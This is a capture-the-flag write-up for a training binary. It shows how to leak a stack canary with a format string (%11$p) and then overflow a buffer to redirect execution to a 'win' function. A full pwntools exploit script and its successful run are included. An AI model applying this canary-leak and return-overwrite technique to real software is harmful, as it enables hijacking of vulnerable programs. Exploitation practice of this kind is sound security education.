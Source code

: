 # 05_ret_overwrite_canary_leak Writeup

## Steps:
1. Run chall. Notice this is similar to 04 except the canary is not provided. We will need to use a Format String to `leak` the value.
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7fff1baf2018, to a function called 'win' in the binary.

This program has a canary @ 0x7fff1baf2008. This time, you must determine it's value yourself, via a leak.
Lucky for you, there is now a format string vulnerabiltiy for you to leverage!

0x7fff1baf1ff0: 0x0000000000000000 0x0000000000000000 
0x7fff1baf2000: 0x0000000000000000 *****REDACTED*****
0x7fff1baf2010: 0x0000000000000001 0x00007f66fbfbfca8 

Enter your name: AAAA
Hello, AAAA. Good luck!

Enter input: AAAA

0x7fff1baf1ff0: 0x0000000a41414141 0x0000000000000000 
0x7fff1baf2000: 0x0000000000000000 *****REDACTED*****
0x7fff1baf2010: 0x0000000000000001 0x00007f66fbfbfca8 

You failed to overwrite the return pointer and canary.
```
2. Using gdb gef, `disas main` to determine where to set breakpoints. Break before `scanf` and view the stack with `x/40gx $rsp`.
3. Type `canary` for gef to print the canary value and location. Identify how far into the stack the `canary` is and add 5.
4. Create the format string that will `leak` the canary value with `%__$p`. This will be the first payload.
5. Recieve the `canary` from the line printing it
6.  Create the payload, same as for 04
- 24 bytes of garbage to reach `canary`
- value of `canary`
- 8 bytes of garbage to reach return pointer
- address of `win`
```
from pwn import *

target = process("./chall")

target.sendline(b"%11$p")

var = target.recvuntil(b"Hello, 0x")
canary = target.recvuntil(b".")[:-1].strip().decode()
print("Canary is", canary)
canary = int(canary,16)

win = 0x00401606

payload = b"A"*24
payload += p64(canary)
payload += b"B"*8
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 54735
Canary is 7f9751dffb596c00
[+] Receiving all data: Done (312B)
[*] Process './chall' stopped with exit code 0 (pid 54735)
 Good luck!

Enter input: 
0x7ffd24144980: 0x4141414141414141 0x4141414141414141 
0x7ffd24144990: 0x4141414141414141 *****REDACTED*****
0x7ffd241449a0: 0x4242424242424242 0x0000000000401606 

Congrats, you successuly changed execution flow!
```
